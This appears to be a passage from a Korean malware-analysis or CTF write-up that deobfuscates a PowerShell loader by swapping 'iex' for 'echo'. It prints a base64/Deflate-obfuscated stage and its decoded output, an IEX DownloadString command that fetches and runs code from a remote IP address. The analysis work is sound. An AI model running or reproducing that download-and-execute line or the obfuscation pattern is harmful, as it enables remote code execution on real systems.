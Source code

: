 powershell에서 `Invoke-Expression`이라는 `cmdlet`은  주어진 문자열을 명령으로 실행하고 결과를 반환합니다. `Javascript`에서 `eval` 함수와 비슷한 역할을 수행하는 명령입니다. 

`Invoke-Expression`은 `iex` 로 축약해서 사용할 수 있습니다. 

위의 난독화된 powershell 스크립트를 쉽게 역난독화하는 방법 중 하나는 `iex` 를  `echo`로 치환하는 방법으로, 아래와 같이 `&( $PShOmE[4]+$PSHOMe[34]+'X')`을 `echo`로 치환하여 powershell 스크립트를 실행함으로써 역난독화된 코드를 추출할 수 있습니다.

```powershell
echo ( neW-OBJeCT  iO.comPrEsSion.deFlatESTrEaM( [sYstEM.IO.MeMORYsTrEAm][SyStEM.coNVErt]::FRombase64stRIng('DcS9DoIwEADgV2GjHbx6F/oHozq44OCg61UKQkgx5hJeX7/hu16elVJ93g+3tOSXVH0WeOR0WudcRMN528u68XCX71wmVb9FPq0xRASIHvAYgdC2obHBYBzJWmR2TINzI7vGcfD+fwqJYq119wM=' ), [io.compreSSIOn.comprEsSiOnMoDE]::DecOmPreSS ) | % {neW-OBJeCT  systeM.iO.StREaMreAdeR( $_, [SYsteM.tEXt.enCodIng]::aScII )}| % {$_.reaDToenD( )} )
```

![Untitled](/assets/2022-01-01/BISC%2042.png)

```powershell
# 출력 값
IEX ((New-Object Net.WebClient).DownloadString('[http://222.117.109.215:8458/19f2551aa6a2d66fa646a87746ab8b29](http://222.117.109.215:8458/19f2551aa6a2d66fa646a87746ab8b29)'));
```

닷넷의 WebClient 클래스를 이용하여 `http://222.117.109.215:8458` 주소에서 `19f2551aa6a2d66fa646a87746ab8b29` 파일을 다운로드하여 다시 `IEX`로 실행하는 것을 확인할 수 있습니다. 

해당 URL 경로를 요청해보면 엄청나게 많은 데이터가 `Deflaterstream`로 `Compression`되어 있습니다. 

![Untitled](/assets/2022-01-01/BISC%2043.png)
